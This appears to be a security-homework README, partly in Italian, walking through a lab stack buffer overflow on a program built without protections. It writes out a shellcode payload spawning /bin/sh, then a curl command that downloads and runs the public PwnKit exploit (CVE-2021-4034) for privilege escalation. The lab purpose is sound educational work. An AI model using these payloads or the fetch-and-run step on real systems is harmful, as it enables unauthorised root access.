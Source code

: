 ## FILE PER Homework di sicurezza informatica


Remember to check with checksec the attributes of main.o and disable ASLR!

```
gcc -o main.o main.c -fno-stack-protector -z execstack
```

Guardo com'è strutturata la stack e becco l'indirizzo iniziale di stack

disas oflow
(set breakpoint after strcpy)
run $(python3 -c "print(b'A'*30)")
x/200xb $esp

L'indirizzo di inizio stack 0xbfffee2c (verrà poi scritto little-endian e aumentato leggermente per puntare alla nop sled)

il payload finale sarà costruito come:

	padding + (return_addr + 4) + shellcode
		inizia ad eseguire da dopo il return address


```
run $(python -c "print('\x41'*76+'\x30\xee\xff\xbf'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')")
```



Per effettuare il privilege escalation è possibile utilizzare 

```
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit32 -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

The source for this attack is [HERE](https://github.com/ly4k/PwnKit), and it's based on [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/cve-2021-4034)